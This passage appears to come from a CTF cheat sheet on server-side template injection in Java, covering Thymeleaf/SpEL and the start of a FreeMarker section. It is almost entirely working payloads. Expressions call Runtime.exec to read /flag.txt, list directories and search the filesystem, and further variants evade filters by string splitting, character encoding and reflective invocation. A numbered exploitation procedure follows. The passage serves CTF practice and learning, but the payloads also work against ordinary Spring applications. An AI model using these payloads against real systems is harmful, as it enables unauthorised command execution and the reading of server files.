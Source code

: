 ### SpEL Context Variables (Spring-specific)

```
${#strings.contains(#rt.exec('cat /flag.txt'),'flag')}
```

## Bypass Techniques

### String Manipulation

```
${''.getClass().forName('java.lang.Ru'+'ntime').getRuntime().exec('cat /flag.txt')}
```

### Character Encoding

```
${T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(' /flag.txt')}
```

### Indirect Method Access

```
${#s=(#rt=@java.lang.Runtime@getRuntime()).getClass().getDeclaredMethods()[15],#s.setAccessible(true),#s.invoke(#rt,'cat /flag.txt')}
```

## Practical Approach for CTFs

1. **Confirm the vulnerability**:
    
    - Test with simple expressions like `${7*7}`
2. **Explore the environment**:
    
    - Get system properties with `${T(java.lang.System).getProperties()}`
    - List directories with `${T(java.lang.Runtime).getRuntime().exec('ls -la').inputStream.text}`
3. **Read sensitive files**:
    
    - Try to read `/flag.txt`, `flag.txt` or other CTF-specific files
4. **Execute commands** to find and read the flag:
    
    - Use `${T(java.lang.Runtime).getRuntime().exec('find / -name flag.txt 2>/dev/null').inputStream.text}`

Remember that actual payloads might need to be adapted based on the specific Thymeleaf version, Spring configuration, and security constraints in the target application.

# SSTI for FreeMarker Java Templates

FreeMarker is a popular template engine for Java applications. Here's how to exploit Server-Side Template Injection (SSTI) vulnerabilities in FreeMarker for CTF challenges:

## Basic Testing
